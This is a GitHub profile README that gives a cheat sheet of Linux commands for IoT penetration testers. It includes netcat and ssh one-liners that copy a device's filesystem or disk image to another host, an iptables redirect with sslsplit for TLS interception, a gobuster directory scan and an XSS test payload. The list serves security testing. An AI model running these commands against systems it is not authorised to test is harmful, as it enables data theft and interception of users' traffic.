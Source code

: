 - 👋 Hi, I’m @CertAndKey
- 👀 Here are some useful Linux commands for IoT pentesters

MOVE IoT FILESYSTEM TO PENTEST MACHINE  tar zcvf -  <FILESYSTEM_HERE> | ssh user@laptop "cat > /path/to/laptop/save.tgz"
ADD IPTABLES FORWARDING RULE            sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8080
SSLSPLIT SETUP                          sslsplit -D -X <OUTPUT_FILE_DESTINATION> -k ca.key -c ca.crt ssl 0.0.0.0 8080
COPY READY ONLY FILESYSTEM              dd if=/dev/sda | gzip -1 - | ssh user@local dd of=image.gz
ENABLE IPFORWARD                        sudo bash -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
GOBUSTER                                gobuster dir -u <URL> -w /usr/share/wordlists/dirb/common.txt
CROSS-SITE SCRIPT TEST                  <script>alert('hello')</script>
VIEW OPENSSL CERT CONTENTS              openssl x509 -in ca.crt -text
PICOCOM                                 sudo picocom -b <baud> /dev/<device>     TO EXIT PICOCOM: CTRL+A then CTRL+x
MOVING FILES WITH NETCAT                nc -nvlp 9999 > /output/file/path         # on your machine
                                        nc ip.of.your.machine 9999 < /path/to/bin # on IoT device
RUN THE SAME COMMAND ON LOTS OF FILES   find * >> files.txt
                                        for files in $(cat files.txt);do <command> $files;done   #iterates through files.txt and runs command on each one
LOCATE PARTITIONS                       cat /proc/mtd
MONITOR PERIPHERAL DEVICE ACTIVITY      sudo dmesg -w
